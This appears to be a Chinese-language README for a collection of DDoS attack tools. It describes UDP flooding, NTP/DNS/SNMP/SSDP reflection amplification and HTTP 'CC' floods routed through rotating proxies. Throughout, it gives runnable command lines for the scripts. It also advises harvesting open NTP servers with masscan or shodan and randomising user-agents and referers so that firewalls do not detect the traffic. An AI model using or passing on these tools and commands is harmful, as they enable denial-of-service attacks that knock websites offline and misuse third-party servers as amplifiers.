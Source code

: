 # 常用dddos工具集合
## 目录
* [本工具攻击方法简介](#本工具攻击方法简介)
* [本工具使用方法](#使用方法)

### 本工具攻击方法简介

#### 网络层UDP攻击(目录：/udp/)：

>原理：发送海量数据包，顷刻占满目标系统的全部带宽，正常请求被堵在门外，拒绝服务的目的达成。
```
    1.UDP直接攻击（/udp/local/udpflood.php ）
        优点：操作简单，直接在本机上即可发动攻击
        缺点：由于本机发送大量UDP请求可能会被服务器商警告，或者在路由上被丢弃，且大型站点的机房都有防御，UDP直接攻击流量峰值无法突破大型站点的防御。正常应用情况下，UDP 包双向流量会基本相等，因此在消耗对方资源的时候也在消耗自己的资源。

    2.UDP反射型攻击（/udp/proxy/Saddam.py）
        优点：可以用较小的流量达到较大的攻击流量，且流量来自世界各地的真实服务器，难以被拦截。
        缺点：操作复杂，需收集大量IP，且需要机房允许发送伪造的数据包（大部分正规机房不允许发送伪造的UDP数据包）
```

#### 应用层CC攻击(目录：/cc/):

> 原理：对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务器端资源的目的。在Web应用中，查询数据库、读写硬盘文件等操作，相对都会消耗比较多的资源。

    1.CC直接攻击（/cc/local.py）
      优点：操作便捷，使用本机运行程序攻击
      缺点：单IP请求太频繁容易被目标站防火墙拦截禁封IP

    2.CC代理攻击（/cc/proxy-txt.py）
      优点：使用大量代理IP攻击，不易被拦截
      缺点：需要购买大量代理IP

### 使用方法
    如果要攻击的站点使用的是独立IP，可以直接输入IP地址
    如果要攻击的站点为某个网址，建议修改/etc/hosts，绑定要攻击域名与IP，减少DNS查询次数

#### 网络层UDP攻击(/udp/)

1. UDP直接攻击(/udp/local/)
```sh
    #php版本 > 5.4
    1.访问网址调用
      http://127.0.0.1/udpflood-web.php?pass=1f3870be274f6c49b3e31a0c6728957f&host=www.test.com&port=80&time=99999&packet=9999&bytes=999
    2.运行PHP文件调用
      php ./udpflood.php  host=www.test.com port=80 time=99999 packet=9999 bytes=999
```
2. UDP反射攻击(/udp/proxy/)
```sh
    #python版本2.7
    1.收集IP地址
      使用工具（如：masscan或者shodan）查找出大量开启NTP服务123端口的服务器IP，保存到ntp.txt文件
    2.填写参数运行python程序
      python Saddam.py www.test.com benchmark -n ntp.txt 
```
    > 此处以ntp攻击为例，其他反射攻击收集不同端口IP地址并修改 -n ntp.txt 即可
- -d dns反射攻击
- -s snmp反射攻击
- -p ssdp放射攻击

#### 应用层CC攻击(/cc/)
> python版本3.6
1. CC直接攻击(cc/local.py)
```sh
#get请求攻击 
  python3 local-post.py -v http://www.test.com/search.php?searchword=
#post请求攻击 
  python3 local-post.py -v http://www.test.com/search.php -p searchword
```

2. CC代理攻击(cc/proxy/)
```sh
#随机调用files/proxy.txt代理请求攻击 
  python3 proxy-txt.py -v http://www.test.com/search.php?keyword=
#使用luminati代理接口(修改proxyUser和proxyPass为自己的账户)
  python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
#使用abuyun代理接口(修改proxyUser和proxyPass为自己的账户)
  python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
```

##### 参数说明
- v 必选 待攻击网址或ip地址，例：-v www.test.com
- p 可选 post请求参数，例：-p searchword

##### files目录文件说明
- proxy.txt 随机代理，一行一个
- user-agents.txt 随机请求头，一行一个，防止目标站防火墙特征识别
- referers.txt 来路域名，一行一个
- keywords.txt 搜索关键词，一行一个
